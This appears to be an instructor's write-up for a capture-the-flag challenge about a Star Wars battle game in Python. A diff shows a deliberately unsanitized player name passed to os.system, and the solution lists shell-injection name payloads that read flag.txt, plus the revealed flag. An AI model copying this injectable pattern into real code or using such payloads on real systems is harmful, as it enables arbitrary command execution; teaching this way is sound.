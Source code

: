# Star Wars: The Sequel Trilogy

The final in a series of 3 progressively more difficult challenges.  Game has 2
pseudorandom star wars characters have a battle.  The students are given the
source code (python) for the game to exampine. You are supposed to guess
the winner correctly 7 times in a row.

The third challenge that source has been modified to fix the bug in the PRNG.
Instead of using a fixed seed, this game now uses a seed that is based on the
cryptographic random number generator that can't be predicted.

But there is another change in the game that allows the user to execute a
system function command injection.  The game uses cowsay to hurl insults at
the player when they lose, but the player name is not sanitized.

## Hints

* Try running the diff to tool to compare the 2 versions and see how each
  version differs (maybe also suggest meld or kompare for the diffing)
* The PRNG of this challenge has been fixed, the student will need to find
  a different approach for this one
* Ask the student to check the category of this challenge, what does pwn
  mean?
* Ask them how to commands can be run on one line on the Linux shell

## Solution

Diff the source of this version against the original trilogy version.

```
$ diff battle.py ../8_star_wars_original_trilogy/
3c3
< import random, os, time, struct                    
---
> import random, os, time    
5,6c5,7   
< gNames = [ "Kylo Ren",              
<            "General Leia",                                                                                                                                   
---        
> gNames = [ "Boba Fett",
>            "Darth Vader", 
>            "Princess Leia",
8,10c9,10                                                                   
<            "Rey",
<            "Poe",
<            "Finn" ]
---
>            "Palpatine",
>            "Yoda" ]
44,50d43
< def loser(name):
<       cowFiles = [ "leia.cow", "leia2.cow", "ackbar.cow", "baby_yoda.cow", 
<                    "ewok.cow", "r2d2-c3po.cow", "atst-atat.cow" ]
<       cowFile = "./cows/" + random.choice(cowFiles)
<       os.system('/usr/games/cowsay -f {} "{} is a loser.  lolz"'.format(cowFile, name))
<       time.sleep(10)
< 
79,82c72
<       randBytes = os.urandom(4)
<       (seedVal) = struct.unpack("I",randBytes)
<       random.seed(seedVal)
< 
---
>       random.seed(int(time.time()))
86d75
<       numLosses = 0
88,90c77
<       name = input("What is your name challenger?\n")
< 
<       while( (winStreak < 7) and (numLosses < 3) ):
---
>       while(winStreak < 7):
111,112d97
<                       numLosses += 1
<                       print("Not looking good {}, your win streak just got reset to 0.  Rekt!".format(name))
116,118d100
< 
<       if (numLosses >= 3):
<               loser(name)
```

Some of the character names have changed, but that isn't a big deal.  The
PRNG of this game has now been fixed with a proper cryptographically secure
PRNG seed.  (The random library isn't assumbed to be crytographically secure,
so while you could probably exploit it's behavior, that is way more difficult
of a task).

The other thing the students should notice is that the game insults them.
It uses the cowsay program to draw ASCII art on the screen.  But it uses
the system call with a user supplied string that is unsanitized.

Make your name have something that makes system execute another command.
Then lose the game, the cowsay then can print the flag.

Names can be:

```
hacker"; cat flag.txt; #
```

or...

```
rekt `cat flag.txt`
```


or...

```
flag is $(cat flag.txt)
```

So playing the game...

```
$ nc ctf.mwales.net 45004
What is your name challenger?
flag is $(cat flag.txt)
```

Keep selecting 0, everyone dies.  Lose 3 times.

![flag](graphics/leia_flag.png)
```
  General Leia wins!                                                        
                                                                               
Not looking good flag is $(cat flag.txt), your win streak just got reset to 0.  Rekt!
 _________________________________________                                
/ flag is                                 \                             
| wildcat{strike_me_down_and_i_become_mor |                             
\ e_powerful} is a loser. lolz            /                           
 -----------------------------------------                            
                     \
```                                             

followed by the ASCII artwork...

Revealing the flag

```
wildcat{strike_me_down_and_i_become_more_powerful}
```
